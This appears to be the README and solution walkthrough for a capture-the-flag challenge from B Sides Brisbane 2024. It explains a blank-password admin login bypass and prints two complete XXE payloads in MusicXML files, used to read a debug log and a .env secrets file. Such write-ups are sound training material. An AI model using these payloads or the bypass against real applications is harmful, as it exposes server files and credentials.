 # SheetSecurity

CTF challenge for B Sides Brisbane 2024

## Setup

```bash
# build
docker build -t sheet_security_image .
# run
docker run --rm -d -p 8000:8000 --name sheet_security sheet_security_image
```

## Walkthrough (short)

Quick solve:

- Admin auth as `admin/<blank>`, bypassing the UI requirement for a password
- Work out path to potential debug log
- Use XXE in (zipped xml) file upload to read that log file
- See a reference to a .env file and combine that with knowledge of the python script's path (from the info log)
- Use XXE to read `.env` and get the flag

## Walkthrough (long)

Expected path:

- Click on Admin Logon
- See clue that username is probably `admin`
- Attempt common techniques for bypassing auth e.g.
    - SQLi
    - admin/admin
    - brute force
    - no password
- Observe that the UI requires a password
- Try authenticating with a blank password
    - using Burp, curl etc. or by editing the DOM to remove `required` from the password field
    - the reason this works is because of flawed validation logic on the server - **not** because the password is actually blank
- Authenticate as `admin/<blank>`
- Observe that you're getting INFO, WARNING and ERROR logs
- Observe the file path convention for logs
- Deduce there might be a debug log at `/var/log/sheetsec-debug.log`
- Head back to the main page and realise you have file upload for mxl files
    - Research mxl - it's zipped .musicxml, which is just xml
    - There's a file you want to read (the debug log), so try XXE
- Craft an mxl file (zipped xml) with xxe to read that file
    - either place the payload in an xml field where the music renderer will display it (e.g. `<work-title>`) or place it anywhere and use the `Download watermarked file` button to download a copy of the `.musicxml` file with the XXE rendered
- View the log file and spot `Sourcing .env`
- Recall that the info log revealed the full path of the running py file
- Combine that path with .env to read the .env file using XXE, again
- View the .env file and get the flag - the admin's password

## XML to read the debug log

Remember to convert this .musicxml file to .mxl by zipping it.

```bash
zip read-debug-log.mxl read-debug-log.musicxml
```

Musicxml content:

```xml
<?xml version="1.0" encoding="UTF-8" standalone="no"?>
<!DOCTYPE score-partwise PUBLIC "-//Recordare//DTD MusicXML 3.0 Partwise//EN" "http://www.musicxml.org/dtds/partwise.dtd" [<!ENTITY xxe SYSTEM "file:///var/log/sheetsec-debug.log"> ]>
<score-partwise version="3.0">
<movement-title>Prelude to a Tragedy - &xxe;</movement-title>
  <part-list>
    <score-part id="P1">
      <part-name/>
    </score-part>
  </part-list>
  <part id="P1">
    <measure number="1">
      <attributes>
        <divisions>4</divisions>
        <key>
          <fifths>0</fifths>
          <mode>major</mode>
        </key>
        <time>
          <beats>4</beats>
          <beat-type>4</beat-type>
        </time>
        <clef>
          <sign>G</sign>
          <line>2</line>
        </clef>
      </attributes>
      <note>
        <duration>16</duration>
        <pitch>
          <step>A</step>
          <octave>4</octave>
        </pitch>
      </note>
    </measure>
    <measure number="2">
      <note>
        <duration>16</duration>
        <pitch>
          <step>D</step>
          <octave>5</octave>
        </pitch>
      </note>
    </measure>
    <measure number="3">
      <note>
        <duration>16</duration>
        <pitch>
          <step>A</step>
          <octave>4</octave>
        </pitch>
      </note>
    </measure>
    <measure number="4">
      <note measure="yes">
        <rest/>
        <duration>16</duration>
      </note>
    </measure>
  </part>
</score-partwise>
```

## XML to read the .env file

Remember to convert this .musicxml file to .mxl by zipping it.

```bash
zip read-dot-env.mxl read-dot-env.musicxml
```

Musicxml content:

```xml
<?xml version="1.0" encoding="UTF-8" standalone="no"?>
<!DOCTYPE score-partwise PUBLIC "-//Recordare//DTD MusicXML 3.0 Partwise//EN" "http://www.musicxml.org/dtds/partwise.dtd" [<!ENTITY xxe SYSTEM "file:///code/src/.env"> ]>
<score-partwise version="3.0">
<movement-title>Prelude to a Tragedy - &xxe;</movement-title>
  <part-list>
    <score-part id="P1">
      <part-name/>
    </score-part>
  </part-list>
  <part id="P1">
    <measure number="1">
      <attributes>
        <divisions>4</divisions>
        <key>
          <fifths>0</fifths>
          <mode>major</mode>
        </key>
        <time>
          <beats>4</beats>
          <beat-type>4</beat-type>
        </time>
        <clef>
          <sign>G</sign>
          <line>2</line>
        </clef>
      </attributes>
      <note>
        <duration>16</duration>
        <pitch>
          <step>A</step>
          <octave>4</octave>
        </pitch>
      </note>
    </measure>
    <measure number="2">
      <note>
        <duration>16</duration>
        <pitch>
          <step>D</step>
          <octave>5</octave>
        </pitch>
      </note>
    </measure>
    <measure number="3">
      <note>
        <duration>16</duration>
        <pitch>
          <step>A</step>
          <octave>4</octave>
        </pitch>
      </note>
    </measure>
    <measure number="4">
      <note measure="yes">
        <rest/>
        <duration>16</duration>
      </note>
    </measure>
  </part>
</score-partwise>
```
